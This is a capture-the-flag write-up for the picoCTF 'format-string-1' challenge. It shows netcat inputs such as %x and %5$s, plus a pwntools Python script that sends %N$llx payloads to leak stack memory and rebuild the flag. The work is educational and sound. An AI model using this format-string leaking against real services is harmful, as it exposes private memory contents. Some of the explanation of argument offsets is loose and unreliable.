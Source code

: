 # Description
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

# Context
On connecting via netcat:
```
❯ nc mimas.picoctf.net 62487
Give me your order and I'll read it back to you:
1
Here's your order: 1
Bye!
```

We can also know that the binary is 64-bit:
```
❯ objdump -a format-string-1

format-string-1:     file format elf64-x86-64
format-string-1

```
# Solving
## Trying some weird inputs
Since the name of the challenge is "format-string-1", lets try using some format char inputs.
### Reading some unset bytes from ``buf``
```
❯ nc mimas.picoctf.net 62487
Give me your order and I'll read it back to you:
%x%x%x%x%x
Here's your order: 40211804076a00021d7880
Bye!
```
### Reading the arg ``buf`` using ``buf``?
Since this is a 64-bit program, the argument for the `printf` function
can be accessed using the `%5$s` format string. The syntax is `%<arg number>$<format>` for 32-bit programs, and `%<arg_number+5>$<format>` for 64-bit.
```
❯ nc mimas.picoctf.net 62487
Give me your order and I'll read it back to you:
hello%5$s
Here's your order: hellohello%5$s

Bye!
```

### Exploring the stack
We saw that we can read the argument `buf` using `%5$s`, but we can go
even further and explore the stack to find some interesting values.
This is possible because in case the `printf` function needs more arguments
those will be read from the stack. We can use the `%<arg_number>$lx` format with a higher number to read the stack.

The following python code will help us explore the stack this way:

It will connect to the server, send a payload, and return the response cutting the added part of the response, in order to get only the bytes read from memroy. The response will be decoded from hex to utf-8 if it has 16 bytes (In other case it means we red something else, mostly alignment padding).

```python
def connect_send(payload):
    io = remote("mimas.picoctf.net", 61211)
    print(str(io.recvline()))
    io.sendline(payload)
    recvd = io.recvall()
    recvd = recvd.replace(b"Here's your order: ", b"")
    recvd = recvd.replace(b"\nBye!\n", b"")
    return try_string(recvd)

def try_string(hex_string):
    if len(hex_string)>=16:
        try:
            decoded_string = codecs.decode(hex_string, "hex").decode("utf-8")
            print("!!!!!!!!!!!!!!!! Decoded string: ", decoded_string)
            return decoded_string
        
        except Exception as e:
            print("Error decoding string: ", e)

def explore_the_stack():
    findings = []
    for i in range(20):
        pos_offseted = 5+i
        finding = connect_send(b"%"+str(pos_offseted).encode()+b"$llx")
        if(finding != None):
            findings.append(finding)

    print(findings)
```
The execution of the code will give us the following output:

['{FTCocip', '5_14m1n4', '4x4_31y7', 'e5_g41f_', '}4bcb76', '#\x00\x00\x00\x07', ' ni3t0rP']

Clearly some of the flag is revealed in the output, if we reverse the first element in the array.
The flag would be the first five elements reversed. The output is reversed because the endianess of the memory
but since each character is 1 byte, data doesn't break reading this way, just gets reversed.

This leaves us with a single question:
Is the last item in the array the secret ingredient?